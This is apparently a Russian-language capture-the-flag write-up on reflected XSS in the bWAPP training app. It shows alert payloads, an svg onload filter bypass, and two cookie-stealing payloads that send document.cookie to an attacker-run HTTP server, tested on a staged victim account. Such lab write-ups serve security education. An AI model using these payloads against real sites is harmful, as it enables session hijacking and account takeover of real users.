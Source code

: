 # Reflected XSS (GET)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости типа "Межсайтовый скриптинг" (XSS)***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий
- Средний

# Приложение
---

![Target](images/XssReflectedTarget.png)

# Функционал
---

![Function](images/XssReflectedFunction.png)

# Эксплуатация (фаза 1)
---

Тестирование на наличие Reflected XSS путем передачи простого XSS-пейлоада в поле `lastname` через BurpSuite или непосредственно на клиентской стороне:

#### Пейлоад (Уровень безопасности - низкий)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![GetBurp](images/XssReflectedGetBurp.png)

## Браузер

![RefBrowser](images/XssReflectedBrowser.png)

## Результат

![RefSuccess](images/XssReflectedSuccess.png)

Приложение уязвимо к Reflected XSS. Эту уязвимость можно использовать для кражи cookie других пользователей.

Примечание: для уровней безопасности `medium` и `high` в bWAPP пейлоады будут отличаться из-за реализованных мер безопасности.

## Эксплуатация (Фаза 2)
---

HTTP-сервер можно запустить с помощью Python, используя команду:

```Bash
python3 -m http.server "порт"
```

Я не указал порт, и сервер запустился на порту `8000`.

Когда пользователь переходит по URL с внедренным этим пейлоадом:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Его cookie будут отправлены на HTTP-сервер, запущенный на порту `8000`.

Переход по URL от пользователя `bee/bug` привел к успешной краже cookie:

![Cookie](images/XssReflectedCookieTheftTest.png)
(PHPSESSID содержит токен, используемый для аутентификации пользователей)

Теперь смоделируем взаимодействие с жертвой:

![Mamont](images/XssReflectedMamont1.png)

Я создал пользователя-жертву и использовал его учетные данные для входа в bWAPP.

Как только жертва переходит по злонамеренной ссылке (которая в реальном мире обычно предоставляется c помощью методов социальной инженерии), значение cookie отправляется на сервер атакующего:

![Mamont1](images/XssReflectedMamont2.png)

Сработало! Cookie пользователя `Mamont` были успешно скомпрометированы без его ведома:

![MamontCookie](images/XssReflectedMamontCookie.png)
(Для более четкого вывода я перезапустил экземпляр)

## Подход для уровня Medium
---

BWAPP на уровне безопасности `medium` реализует защитную меру против базового XSS-пейлоада:

```HTML
<script>alert("Basic XSS")</script>
```

Однако пейлоад на основе `svg` обходит фильтры, что приводит к успешному выполнению кода:

```HTML
<svg onload=alert(1)>
```

### Пейлоад для кражи cookie на уровне Medium

Этот пейлоад аналогичен подходу для низкого уровня, но основан на `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```